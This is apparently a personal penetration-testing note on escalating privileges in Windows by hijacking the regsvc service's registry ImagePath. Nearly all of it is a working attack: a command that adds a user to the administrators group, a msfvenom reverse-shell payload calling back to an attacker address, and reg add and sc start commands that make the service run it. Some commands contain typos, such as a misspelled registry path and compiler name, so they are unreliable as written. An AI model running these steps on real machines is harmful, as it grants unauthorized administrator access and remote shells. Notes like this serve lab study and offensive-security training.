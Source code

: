 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Regsvc ACL|Enum]]
#### Payload
The payload can do anything I believe, in our example case it will be a C file that will run the system command `cmd.exe /k net localgroup administrators user /add` to add `user` to the `administrators` group. 

**Note for later, copy the C file [[Dark Arts/Useful Code/~Home|here]] when doing the lab, make sure to link it here**
To compile above linked code `windows_service.c` :
```bash
# install compiler if necessary
sudo apt install gcc-mingw-w64

# compile
x86_64 -w64-mingw-gcc windows_service.c -o x.exe
```

You can also just make a reverse shell with msfvenvom:
```bash
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o x.exe
```
[[Windows|File transfer]] malware executable to the target windows box
#### Exploit
For this example, payload `x.exe` was transferred to `C:\Temp`
```powershell
# add malware to registry
reg add HKLM\SYSTEM\CurrentControlSet\Sservices\regsvc /v ImagePath /t REG_EXPAND_SZ /d <path to malware> /f 

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f 

# start the service
sc start regsvc

# You should have caught a reverse shell if you went with that, if you went with the user add and windows_service.c, then confirm "user" was added to "administrators" group:
net localgroup administrators

# then log in as "user"
```